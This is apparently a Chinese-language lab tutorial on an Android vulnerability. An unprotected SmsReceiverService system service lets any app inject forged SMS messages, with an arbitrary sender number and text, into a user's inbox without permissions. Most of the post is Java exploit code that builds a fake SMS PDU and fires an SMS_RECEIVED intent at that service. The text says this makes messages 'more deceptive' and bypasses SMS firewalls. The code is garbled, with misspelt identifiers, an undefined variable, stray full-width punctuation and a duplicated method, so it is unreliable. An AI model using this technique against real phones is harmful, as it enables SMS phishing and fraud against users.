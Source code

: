 ```yaml
---
title: Android安全之短信欺诈漏洞
date: 2021-12-27 19:46:16
tags: 
- Android
- 短信
- 欺诈
---
```


目的：
* 通过JAVA编程理解Android手机安全漏洞的基本原理
* 用JAVA编写伪造短信代码，向系统收件箱发送伪造短信

原理：
* 漏洞原理介绍
* 该系统漏洞能够使攻击者无需申请任何权限发送短信到用户收件箱。 出现该漏洞的原因是Android系统的com.android.mms.transaction。
* SmsReceiverService系统服务未判断启动服务的调用者，攻击者可以通过该应用发送伪装短信到用户收件箱。本漏洞实质上是一种能力的泄漏。
* 漏洞发送的短信并不经过GSM网络,所以即使手机没有插sim卡,也照样可以收到短信,这让大部分的短信防火墙完全失效。

过程：

打开eclipse，点击file-import，选择android目录下的existing android code into workspace![image-20211229100046569](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100046569.png)

选择simpleedu28项目![image-20211229100118574](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100118574.png)

导入后的项目![image-20211229100200697](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100200697.png)

在工程目录res/layout的界面代码，这里可以通过控制代码，编辑相应的函数生成欺诈短信，点击activity_main.xml，可以看到界面布局的文件![image-20211229100257165](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100257165.png)

在mainactivity中添加运行欺诈短信的代码，点开`msgdemo2\src\com.example.msgdemol\mainactivity.java`![image-20211229100406295](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100406295.png)

在mainactivity的init()函数添加如下代码，为button设置监听事件

```java
//为发送按钮设置监听
sendBt.setOnClickListener(new OnClickListener(){
       @Override
       public void onClick(View v){
                       /*
                 *获取输入的伪造号码和内
                 *判断输入是否合法
*/
String num=msgNumTv.getText().toString();
String con=msgConTv.getText().toString();
If(num.length()<1||con.length()<1)
{ Toast.makeText(MainActivity.this,”电话号码或者内容没有输入”,Toast.LENGTH_SHORT).show();
return;}
//判断通过伪造短信
//make Msg(MainActivity.this,num,con);
createFakeMsg(MainActivity.this,num,con);}
});
```

在MainActivity的init()函数,跳转到init函数位置添加上一步的代码

![image-20211229101856123](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229101856123.png)createFakeMsg的具体代码

```java
/**
 *伪造短信
* @param context
@param num
* @param con
 */
          Private static void createFakeMsg(Context context,String num,String con){
                byte[] pdu=null;
                byte[] scBytes=PhoneNumberUtils.networkPortionToCalledPartyBCD(num);
                int lsmcs=scBytes.length;
                byte[] dateBytes=new byte[7];
                Calendar calendar=new GregorianCalendar();
                dateBytes[0]=reverseByte((byte)(calendar.get(Caledar.YEAR)));
                dateBytes[1]=reverseByte((byte)(calendar.get(Caledar.MONTH)+1));
                dateBytes[2]=reverseByte((byte)(calendar.get(Caledar.DAY_OF_MONTH)));
                dateBytes[3]=reverseByte((byte)(calendar.get(Caledar.HOUR_OF_DAY)));
                dateBytes[4]=reverseByte((byte)(calendar.get(Caledar.MINUTE)));
                dateBytes[5]=reverseByte((byte)(calendar.get(Caledar.SECOND)));
                dateBytes[6]=reverseByte((byte)(（calendar.get(Caledar.ZONE_OFFSET)+calendar.get(Calendar.DST_OFFSET))/(60*1000*15)）);
                try{
          // Log.d(LOG,”test one”);
                 ByteArrayOutputStream bo=new ByteArrayOutputStream();
                 bo.write(lsmcs);
                 bo.write(scBytes);
                 bo.write(0x04);
                 bo.write((byte)num.length());
                 bo.write(senderBytes);
                 bo.write(0x00);
                 bo.write(0x00);//encoding:0 for default 7bit
                 bo.write(dateBytes);
                 try{
          String sReflectedClassName=”com.android.internal.telephony.GsmAlphabet”;
          Class cRefectedNFCExtras=Class.forName(sReflectedClassName);
          Method stringToGsm7BitPacketd=cReflectedNFCExtras.getMethod(“stringToGsm7BitPacketd”,new Clas[]{String.class});
          stringToGsm7BitPacked.setAccessible(true);
          byte[] conbytes=(byte[]) stringToGsm7BitPacked.invoke(null,con);
          bo.write(conbytes);
          }catch(Exception e){e.printStackTrace();}
          pdu=bo.toByteArray();}
          catch(IOException e){e.printStackTrace();}
          Intent intent=newIntent();
          Intent.setClassName（“com.android.mms.transaction.SmsReceiverService”）;
          Intent.setAction(“android.provider.Telephony.SMS_RECEIVED”);
          Intent.putExtra(“pdus”,new Object[]{pdu});
          //intent.putExtra(“format”,”3gpp”);
          Context.startService(intent);}
          Private static byte reverseByte(byte b){
          private static byte reverseByte(byte b){
          return (byte)((b&0xf0)>>4|(b&0x0f)<<4);}
```

在已经设计好的欺诈短信发送界面，有两部分内容：伪造号码与伪造内容。这里的伪造号码，这是发件人的号码，因为是发给自己，所以没有收件人号码，。至于内容可以随意填写内容，使短信更具欺诈性。

AVD中打开虚拟机Simpleedu28虚拟安卓![image-20211229102354469](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102354469.png)

右键MSGDEMO2，选择run as-android application按钮![image-20211229102712162](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102712162.png)

虚拟端返回运行后结果![image-20211229102740838](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102740838.png)

点击发送，手机接收欺诈短信

![image-20211229102848974](http://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102848974.png)

